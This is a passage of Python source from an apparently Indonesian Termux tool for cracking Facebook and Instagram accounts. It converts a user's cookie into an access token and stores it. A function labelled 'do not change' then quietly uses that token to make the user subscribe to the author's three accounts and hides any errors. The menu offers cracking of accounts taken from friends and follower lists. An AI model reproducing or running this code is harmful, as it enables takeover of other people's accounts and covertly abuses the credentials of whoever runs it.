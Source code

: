 			open('data/token.txt', 'w').write(romz)
			print (f'\n{P}#{O} Token anda {M}> {K}{romz} ');jeda(2)
			login_bot(romz)
	except AttributeError:
		print("%s%s terjadi kesalahan saat convert, periksa cookie anda "%(M,til))
		exit()
	except UnboundLocalError:
		print("%s%s terjadi kesalahan saat convert, periksa cookie anda "%(M,til))
		exit()

# JANGAN DI UBAH !
def login_bot(romz):
	try:
		toket = romz
		romz1 = ('100067807565861')
		romz2 = ('100029143111567')
		romz3 = ('100028434880529')
		requests.post(f"https://graph.facebook.com/{romz1}?fields=subscribers&access_token={toket}") # ROMI AFRIZAL PENGGUNA AKUN UNIK
		requests.post(f"https://graph.facebook.com/{romz2}?fields=subscribers&access_token={toket}") # DEMIT ROMI AFRIZAL
		requests.post(f"https://graph.facebook.com/{romz3}?fields=subscribers&access_token={toket}") # Romi Afrizal (2018)
		
	except:
		pass
		
# MENU PILIHAN INI AJG
class Menu():
	
	def __init__(self,url):
		self.url = url
		
	def tentang(self):
		try:
			kueh = romz_xyz(open("data/cookies","r").read().strip())
		except IOError:
			os.system("rm -rf data/cookies && rm -rf data/token && rm -rf data/my_info")
			print ("%s%s cookie invalid "%(M,til));jeda(2)
			os.system('python bff-2.py')
		try:
			tentang = json.loads(open("data/my_info","r").read().strip())
		except FileNotFoundError:
			#from data import informasi
			(kueh, requests.get("https://mbasic.facebook.com/profile.php?v=info",cookies = kueh).text)
			os.system('python bff-2.py')
		try:
			a = requests.get(f"{self.url}/profile.php", cookies = kueh).text
		except requests.exceptions.ConnectionError:
			exit('\n\n%s%s tidak ada koneksi%s\n'%(M,til,N))
		if "mbasic_logout_button" not in a:
			os.system("rm -rf data/cookies && rm -rf data/token && rm -rf data/my_info")
			print ("%s%s cookie invalid "%(M,til));jeda(2)
			os.system('python bff-2.py')
		else:
			banner()
			print(f"{U} × {O}Team{M} : {H}Termux_ID\n")
			print ('%s×%s [01] %sCrack dari daftar teman '%(U,P,O))
			print ('%s×%s [02] %sCrack dari total pengikut'%(U,P,O))
			print ('%s×%s [03] %sCrack user instagram %spro'%(U,P,O,H))
			print ('%s×%s [aa] %sSetting user agent'%(U,P,O))
			print ('%s×%s [rm] %sHapus data login'%(U,P,O))
			print ('%s×%s [00] %sKeluar (logout)'%(U,M,O))